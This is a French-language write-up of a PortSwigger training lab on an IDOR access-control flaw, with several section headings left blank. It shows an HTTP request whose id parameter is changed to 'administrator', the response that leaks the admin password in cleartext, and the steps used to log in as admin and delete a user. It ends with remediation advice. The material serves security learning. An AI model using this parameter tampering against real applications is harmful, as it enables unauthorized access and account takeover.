







# Lab: User ID controlled by request parameter with password disclosure

> **CTF :** PORTSWIGGER  

> **Catégorie :** Access control  

> **Difficulté :** APPRENTICE  

> **Points :**  ✅
> **Date :** 27/07/2026
> **Statut :** ✅ Résolu 

---

## 📌 Description du Challenge

> *This lab has user account page that contains the current user's existing password, prefilled in a masked input.
To solve the lab, retrieve the administrator's password, then use it to delete the user carlos.
You can log in to your own account using the following credentials: wiener:peter .*

---

## 🎯 Objectif

- récupérez le mot de passe de l'administrateur, puis utilisez-le pour supprimer l'utilisateur carlos. 
---

## 🔍 Reconnaissance

- L'interface utilisateur intègre une page de gestion de profil permettant la mise à jour des informations personnelles, notamment l'adresse e-mail et le mot de passe.

**Observations :**
-
-

**Outils utilisés :**
- Burp Suite

---

## 🧠 Hypothèse

 Les fonctionnalités de modification du profil utilisateur orientent les investigations vers la recherche d'une vulnérabilité d'escalade de privilèges (Privilege Escalation).

---

## ⚔️ Exploitation

### Étape 1 — Commprendre le fonctionnement de la page web
- S'authentifier sur l'application afin d'accéder à l'espace utilisateur standard.  



-  Rafraîchir la page du profil utilisateur et capturer le flux HTTP sortant à l'aide du proxy Burp Suite. 



---

### Étape 2 — [Action]


---

### Étape 3 — [Exploitation finale]

L'analyse de la structure de l'URL met en évidence le paramètre id=/my-account?id=wiener. Ce paramètre, contrôlé par l'utilisateur, constitue le vecteur d'attaque principal. Afin de tester l'efficacité du contrôle d'accès, la valeur wiener a été substituée par administrator dans le but de tenter d'accéder sans autorisation à l'interface d'administration.

**Payload utilisé :**
```http
GET /my-account?id=administrator HTTP/2
Host: 0a5000b203eec1cd84dcef29005900f0.web-security-academy.net
Cookie: session=zppugB7e6URKjcJpYEccARPXSH6Ec59J
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: fr,fr-FR;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br
Referer: https://0a5000b203eec1cd84dcef29005900f0.web-security-academy.net/login
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers


```



- Transmettre la requête HTTP ciblée vers le module Repeater (raccourci Ctrl+R).Modifier le paramètre de l'identifiant pour cibler le compte d'administration.Soumettre la requête modifiée et analyser la réponse HTTP du serveur afin d'extraire le mot de passe de l'administrateur.
- Modifier le paramètre de l'identifiant pour cibler le compte d'administration.  
- Soumettre la requête modifiée et analyser la réponse HTTP du serveur afin d'extraire le mot de passe de l'administrateur.


**Résultat :**
```http
HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
Cache-Control: no-cache
X-Frame-Options: SAMEORIGIN
Content-Length: 3939

<!DOCTYPE html>
<html>
<!--LAB_HEAD_START-->
    <head>
        <link href=/resources/labheader/css/academyLabHeader.css rel=stylesheet>
        <link href=/resources/css/labs.css rel=stylesheet>
        <title>User ID controlled by request parameter with password disclosure</title>
    </head>
<!--LAB_HEAD_END-->
    <body>
        <script src="/resources/labheader/js/labHeader.js"></script>
        <!--LAB_HEADER_START-->
        <div id="academyLabHeader">
            <section class='academyLabBanner'>
                <div class=container>
                    <div class=logo></div>
                        <div class=title-container>
                            <h2>User ID controlled by request parameter with password disclosure</h2>
                            <a class=link-back href='https://portswigger.net/web-security/access-control/lab-user-id-controlled-by-request-parameter-with-password-disclosure'>
                                Back&nbsp;to&nbsp;lab&nbsp;description&nbsp;
                                <svg version=1.1 id=Layer_1 xmlns='http://www.w3.org/2000/svg' xmlns:xlink='http://www.w3.org/1999/xlink' x=0px y=0px viewBox='0 0 28 30' enable-background='new 0 0 28 30' xml:space=preserve title=back-arrow>
                                    <g>
                                        <polygon points='1.4,0 0,1.2 12.6,15 0,28.8 1.4,30 15.1,15'></polygon>
                                        <polygon points='14.3,0 12.9,1.2 25.6,15 12.9,28.8 14.3,30 28,15'></polygon>
                                    </g>
                                </svg>
                            </a>
                        </div>
                        <div class='widgetcontainer-lab-status is-notsolved'>
                            <span>LAB</span>
                            <p>Not solved</p>
                            <span class=lab-status-icon></span>
                        </div>
                    </div>
                </div>
            </section>
        </div>
        <!--LAB_HEADER_END-->
        <div theme="">
            <section class="maincontainer">
                <div class="container is-page">
                    <header class="navigation-header">
                        <section class="top-links">
                            <a href=/>Home</a><p>|</p>
                            <a href="/my-account?id=wiener">My account</a><p>|</p>
                            <a href="/logout">Log out</a><p>|</p>
                        </section>
                    </header>
                    <header class="notification-header">
                    </header>
                    <h1>My Account</h1>
                    <div id=account-content>
                        <p>Your username is: administrator</p>
                        <form class="login-form" name="change-email-form" action="/my-account/change-email" method="POST">
                            <label>Email</label>
                            <input required type="email" name="email" value="">
                            <input required type="hidden" name="csrf" value="LUFph2UuQqEai8ToHQ1BEY6PH237LgqU">
                            <button class='button' type='submit'> Update email </button>
                        </form>
                        <form class="login-form" action="/my-account/change-password" method="POST">
                            <br/>
                            <label>Password</label>
                            <input required type="hidden" name="csrf" value="LUFph2UuQqEai8ToHQ1BEY6PH237LgqU">
                            <input required type=password name=password value='rfhbmp8uufr4ufyf3dm9'/>
                            <button class='button' type='submit'> Update password </button>
                        </form>
                    </div>
                </div>
            </section>
            <div class="footer-wrapper">
            </div>
        </div>
    </body>
</html>

```
*L'analyse du code source de la réponse HTTP retournée par le serveur révèle la présence, en clair, du mot de passe associé au compte de l'administrateur*

**Admin Passwd :** `rfhbmp8uufr4ufyf3dm9`  


###  Se connecter à l'interface d'administration en utilisant les identifiants d'accès précédemment compromis.  

  

### Nous sommes sur la page Admin.  

  

### Naviguer vers l'onglet « Admin panel » pour accéder aux fonctionnalités d'administration.  
  

- Suppression de l'utilisateur  Carlos

---

## 🚩 Flag



---

## 🛡️ Remédiation

1. Ne jamais renvoyer de secrets dans les réponses (Impératif) : Le mot de passe d'un utilisateur (qu'il soit administrateur ou standard) ne doit jamais être retourné par l'application dans le code source HTML ou dans une réponse API, même sous forme masquée ou en clair. Les mots de passe doivent être hachés en base de données et ne servent qu'à la vérification lors de l'authentification.  

2. Contrôle d'accès basé sur la session (IDOR) : L'application ne doit pas faire confiance au paramètre id=wiener fourni dans l'URL pour afficher les données d'un compte. Le serveur doit ignorer ce paramètre utilisateur et afficher uniquement les données liées à l'identifiant stocké de manière sécurisée dans la session active côté serveur. Si un utilisateur tente de forcer l'ID d'un autre compte, le serveur doit bloquer la requête avec une erreur 403 Forbidden.
---

## 💡 Points Clés à Retenir

1. Ce qu'on peut retenir (Conclusion)

- Ce test d'intrusion démontre qu'une simple faille d'autorisation (IDOR) peut avoir des conséquences désastreuses si l'application manque de rigueur dans la gestion des données sensibles.

2.  Impact de la vulnérabilité:  
- Compromission totale de la confidentialité : Un attaquant standard peut énumérer les identifiants et lire les informations privées de n'importe quel utilisateur, y compris les secrets d'administration.  
- Perte totale de contrôle (Prise de contrôle de compte) : L'exposition du mot de passe de l'administrateur en clair permet à un attaquant de s'authentifier directement sur le panneau d'administration, lui octroyant les pleins pouvoirs sur l'application (suppression de comptes, modification des configurations, accès aux données globales).

---

## 📚 Références

- [PortSwigger — Lab: User ID controlled by request parameter with password disclosure](https://portswigger.net/web-security/topic)
- [OWASP — Vulnérabilité Associée](https://owasp.org/Top10/)


---

*Rédigé par : Malick Ramzy SOPODOU*  

*PORTSWIGGER🌍*
